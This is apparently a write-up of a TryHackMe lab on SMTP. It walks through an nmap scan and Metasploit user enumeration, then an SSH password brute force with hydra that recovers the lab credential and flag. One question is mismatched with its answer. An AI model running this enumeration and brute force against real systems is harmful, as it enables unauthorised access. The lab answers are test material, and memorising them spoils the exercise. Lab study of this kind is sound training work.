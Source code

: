 ![](https://miro.medium.com/max/1400/1*2TtHSGMb8jaQMZYUF8RQ9g.png)

This is a writeup for [Network Services 2](https://tryhackme.com/room/networkservices2) room on tryhackme.

Enumerating SMTP
----------------

Spin up your target machine and let’s do an NMAP scan to see what ports are open

```
#nmap -Pn -sV -sC 10.10.114.123  
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-03-08 10:31 EST  
Nmap scan report for 10.10.114.123  
Host is up (0.42s latency).  
Not shown: 65093 closed tcp ports (reset), 440 filtered tcp ports (no-response)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 62:a7:03:13:39:08:5a:07:80:1a:e5:27:ee:9b:22:5d (RSA)  
|   256 89:d0:40:92:15:09:39:70:17:6e:c5:de:5b:59:ee:cb (ECDSA)  
|\_  256 56:7c:d0:c4:95:2b:77:dd:53:d6:e6:73:99:24:f6:86 (ED25519)  
25/tcp open  smtp    Postfix smtpd  
|\_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8  
| ssl-cert: Subject: commonName=polosmtp  
| Subject Alternative Name: DNS:polosmtp  
| Not valid before: 2020-04-22T18:38:06  
|\_Not valid after:  2030-04-20T18:38:06  
Service Info: Host:  polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux\_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 3806.97 seconds
```

1.  First, lets run a port scan against the target machine, same as last time. What port is SMTP running on?

```
25
```

2\. Okay, now we know what port we should be targeting, let’s start up Metasploit. What command do we use to do this?

```
msfconsole
```

After opening msfconsole, use the ‘search’ command to look for “smtp\_version”

3\. Let’s search for the module “smtp\_version”, what’s it’s full module name?

```
auxiliary/scanner/smtp/smtp\_version
```

Now use the ‘USE’ command to select the ‘smtp\_version’ module and use the ‘SHOW OPTIONS’ to set the remote hosts.

```
msf6 > use auxiliary/scanner/smtp/smtp\_version  
msf6 auxiliary(scanner/smtp/smtp\_version) > show optionsModule options (auxiliary/scanner/smtp/smtp\_version):Name     Current Setting  Required  Description  
   ----     ---------------  --------  -----------  
   RHOSTS                    yes       The target host(s), see [https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)  
   RPORT    25               yes       The target port (TCP)  
   THREADS  1                yes       The number of concurrent threads (max one per host)msf6 auxiliary(scanner/smtp/smtp\_version) > set RHOSTS 10.10.114.123  
RHOSTS => 10.10.114.123  
msf6 auxiliary(scanner/smtp/smtp\_version) > set RPORT 25  
RPORT => 25  
msf6 auxiliary(scanner/smtp/smtp\_version) > run\[+\] 10.10.114.123:25      - 10.10.114.123:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\\x0d\\x0a  
\[\*\] 10.10.114.123:25      - Scanned 1 of 1 hosts (100% complete)  
\[\*\] Auxiliary module execution completed
```

4\. Great, now- select the module and list the options. How do we do this?

```
options
```

5\. Have a look through the options, does everything seem correct? What is the option we need to set?

```
RHOSTS
```

The exploit we just ran grabs the banner of the SMTP server, and also we can see it’s running ‘Postfix’

6\. Good! We’ve now got a good amount of information on the target system to move onto the next stage. Let’s search for the module “_smtp\_enum_”, what’s it’s full module name?

```
Postfix
```

Again use the ‘search’ command to search for smtp\_enum

7\. Good! We’ve now got a good amount of information on the target system to move onto the next stage. Let’s search for the module “_smtp\_enum_”, what’s it’s full module name?

```
auxiliary/scanner/smtp/smtp\_enum
```

use the ‘SET’ command to set the RHOSTS and USER\_FILE

```
msf6 auxiliary(scanner/smtp/smtp\_enum) > show optionsModule options (auxiliary/scanner/smtp/smtp\_enum):Name       Current Setting                                                Required  Description  
   ----       ---------------                                                --------  -----------  
   RHOSTS                                                                    yes       The target host(s), see [https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)  
   RPORT      25                                                             yes       The target port (TCP)  
   THREADS    1                                                              yes       The number of concurrent threads (max one per host)  
   UNIXONLY   true                                                           yes       Skip Microsoft bannered servers when testing unix users  
   USER\_FILE  /usr/share/metasploit-framework/data/wordlists/unix\_users.txt  yes       The file that contains a list of probable users accounts.msf6 auxiliary(scanner/smtp/smtp\_enum) > set RHOSTS 10.10.125.23  
RHOSTS => 10.10.125.23  
msf6 auxiliary(scanner/smtp/smtp\_enum) > set USER\_FILE /usr/share/wordlists/SecLists-master/Usernames/top-usernames-shortlist.txt  
USER\_FILE => /usr/share/wordlists/SecLists-master/Usernames/top-usernames-shortlist.txt  
msf6 auxiliary(scanner/smtp/smtp\_enum) > run\[\*\] 10.10.125.23:25       - 10.10.125.23:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)  
\[+\] 10.10.125.23:25       - 10.10.125.23:25 Users found: administrator  
\[\*\] 10.10.125.23:25       - Scanned 1 of 1 hosts (100% complete)  
\[\*\] Auxiliary module execution completed
```

8\. What option do we need to set to the wordlist’s path?

```
USER\_FILE
```

9\. Once we’ve set this option, what is the other essential paramater we need to set?

```
RHOSTS
```

11\. Okay! Now that’s finished, what username is returned?

```
administrator
```

Exploiting SMTP
---------------

We have found the username of the SMTP server, now let’s try to find the password with brute-forcing

```
**hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.125.23 ssh**
```

*   **\-t** for parallel connections for target
*   **\-l** for the username
*   **\-P** for the file containing passwords
*   **\-vV** to show the command output

and the attack\_machine IP followed by the protocol

```
\[22\]\[ssh\] host: 10.10.125.23   login: administrator   password: alejandro
```

1.  What is the password of the user we found during our enumeration stage?

```
alejandro
```

2\. Great! Now, let’s SSH into the server as the user, what is contents of smtp.txt

```
THM{who\_knew\_email\_servers\_were\_c00l?}
```

Thank you for reading.

🐾 Writeup on Network Services 2 MySql [https://richardphilipsroy.medium.com/network-services-2-mysql-tryhackme-7fb8ee180a98](https://medium.com/network-services-2-mysql-tryhackme-7fb8ee180a98)
